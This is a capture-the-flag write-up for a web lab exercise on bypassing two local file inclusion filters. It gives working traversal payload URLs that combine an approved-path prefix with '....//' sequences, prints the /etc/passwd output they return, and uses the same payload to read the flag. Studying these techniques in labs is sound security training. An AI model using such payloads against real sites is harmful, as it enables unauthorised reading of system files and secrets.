


## Exercises

### Question 1 — The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt


Tried a normal path traversal payload first:

```
http://154.57.164.74:41063/index.php?language=/../../../../usr/share/flags/flag.txt
```

Met with an "Illegal path specified!" error, indicating an approved-path check was in place.



Pivoted to combining the approved-path bypass with the non-recursive `../` strip bypass, reading `/etc/passwd` first to confirm the technique worked:

```
http://154.57.164.74:41063/index.php?language=languages///....//....//....//....//....//....//etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:105:107::/nonexistent:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```

**Breakdown:**
- `languages///` the approved-path prefix the application's filter requires the input to start with, satisfying that check
- `....//....//....//....//....//....//` six repetitions of the recursive traversal trick — each `....//` has its first `../` stripped by the non-recursive filter, leaving `../` behind, so the net effect is genuine upward traversal despite the filter running
- `etc/passwd` the target file once traversal has climbed back out past the approved-path prefix



With both filters bypassed, swapped the target file to read the flag:

```
http://154.57.164.74:41063/index.php?language=languages///....//....//....//....//....//....//flag.txt
```


**Answer:** `—REDACTED—`